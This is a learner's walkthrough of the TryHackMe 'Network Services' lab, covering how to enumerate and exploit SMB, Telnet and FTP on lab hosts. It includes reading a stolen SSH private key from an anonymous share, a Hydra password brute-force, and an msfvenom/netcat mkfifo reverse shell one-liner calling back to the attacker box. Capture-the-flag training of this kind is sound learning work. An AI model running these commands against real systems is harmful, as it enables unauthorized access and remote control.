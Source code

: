 # Network Services
+ Link: https://tryhackme.com/r/room/networkservices
+ Target IP Address (SMB): 10.10.6.182 *Differs in some images.
+ Target IP Address (Telnet): 10.10.112.119
+ AttackBox IP Address (Telnet): 10.10.198.128 *Differs in some images.
+ Target IP Address (FTP): 10.10.148.36

## Tools
+ NMAP
+ enum4linux
+ smbclient
+ SSH
+ Telnet
+ MSFvenom
+ Netcat

## External Resources
N/A

## Task 01 | Get Connected
N/A

## Task 02 | Understanding SMB
+ SMB = Server Message Block
+ Client-server communication protocol used for sharing networked resources (i.e. files, printers, serial ports).
+ Response-request protocol, so it transmit messages between the client and server to establish a connection.
+ Once a connection is established, a client can send commands to the server for access to resources and essentially treats it as an extension of their own file system.

## Task 03 | Enumerating SMB
1. Recon: `nmap -sV 10.10.6.182`. The machine has 3 ports open and the following services: OpenSSH and Samba.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/01.png)
  
2. `enum4linux -a 10.10.6.182`. Found that the workgroup name is "WORKGROUP", the machine's name is "POLOSMB", the OS version is 6.1, and an share called "profiles".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/02.png)
  
## Task 04 | Exploiting SMB
1. `smbclient //10.10.6.182/profiles` to see if the share allows anonymous acces. It does.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/03.png)
  
2. Looked around in the directory. Found that a person named John Cactus uses/owns this folder, they connect using SSH, and their authorization keys.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/04.png)
  
3. `get id_rsa` and `get id_rsa.pub` to download the files. `cat id_rsa.pub` to find a hint to John's login infomation "cactus@polosmb".  
4. `ssh -i id_rsa cactus@10.10.6.182` to log into the machine using John's RSA private key.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/05.png)
  
5. Looked around in the directory, found a file called "smb.txt", downloaded it using `get smb.txt`, and read it using `cat smb.txt`. Found the flag.

## Task 05 | Understanding Telnet
+ Application protocol
+ Allows a user to connect to and execute commands on a remote machine that's running a Telnet server via a Telnet client.
+ Unencrypted
+ Mostly replaced by SSH.
+ Command Syntax: `telnet <ip> <port>`.

## Task 06 | Enumerating Telnet
1. Recon: `nmap -sV 10.10.112.119` revealed that 0 ports were open. So, I started a different scan `nmap -sV -p- 10.10.112.119 -T 5`, to look through all ports.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/06.png)
  
2. By looking through the returned information from the NMAP scan I found that port 8012/TCP is being used for a backdoor and is likely owned by a user named "SKIDY".

## Task 07 | Exploiting Telnet
1. `telnet 10.10.112.119 8012` and tried out some commands.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/07.png)
  
2. On the AttackBox `sudo tcpdump ip proto \\icmp -i ens5` and `.RUN ping 10.10.198.128 -c 1` on the Telnet session to see if I can execute system commands and reach the AttackBox.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/08.png)
  
3. On the AttackBox `msfvenom -p cmd/unix/reverse_netcat lhost=10.10.198.128 lport=4444 R` to create the reverse shell.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/09.png)
  
4. One the AttackBox`nc -lvp 4444` to listen on port 4444.
5. On the Telnet session `.RUN mkfifo /tmp/tmqkt; nc 10.10.198.128 4444 0</tmp/tmqkt | /bin/sh >/tmp/tmqkt 2>&1; rm /tmp/tmqkt`.
  
6. On the AttackBox in the Terminal with the listener, I executed `ls` and `cat flag.txt` to locate and display the flag.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/10.png)
  
## Task 08 | Understanding FTP
+ A protocol used to transfer files remotely over a network. 
+ Uses a client-server model; client initiates connection to the server, server validates the client's credentials, and then a session is opened.
+ Once a session is opened, the client can execute FTP commands on the server.
+ Operates using 2 channels: Command & Data.
+ The command channel transmits commands and replies to commands.
+ The data channel transmits data.
+ Channels are unencrypted.
+ A sever can support active and/or passive connections.
+ In an active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
+ In a passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 
+ By separating commands and data into separate channels, a user doesn't have to wait for the current data transfer to finished before executing more commands.
+ Default port = 21

## Task 09 | Enumerating FTP
1. Recon: `nmap -sV 10.10.148.36`. Revealed two ports open with the services: FTP and Apache.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/11.png)
  
2. Connected to the FTP server using `ftp 10.10.148.36` with name "anonymous" and no password. Found a file called "PUBLIC_NOTICE.txt".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/12.png)
3. `get PUBLIC_NOTICE.txt` and `cat PUBLIC_NOTICE.txt` to see what's in the file. Found a possible username "Mike".

## Task 10 | Exploiting FTP
1. I first tried `hydra -t 4 -l Mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.148.36 ftp`, however it was getting taking a while. S,o I changed up the command (`hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.148.36 ftp`) and tried again.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/13.png)
  
2. Connected to the FTP server again using `ftp 10.10.148.36` this time with name "mike" and password "password". Found a file called "ftp.txt".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/14.png)
  
3. `get ftp.txt` and `cat ftp.txt` to see what's in the file. Found the flag.

## Task 11 | Expanding Your Knowledge
+ https://www.ietf.org/rfc/rfc959.txt
+ https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef
+ https://attack.mitre.org/techniques/T1210/
+ https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/

## Learned
+ New Tools: MSFvenom.
+ I'm now more familiar/refreshed myself with SMB, Telnet, and FTP.
+ "id_rsa.pub" is useful because it's the default name of an SSH identity file.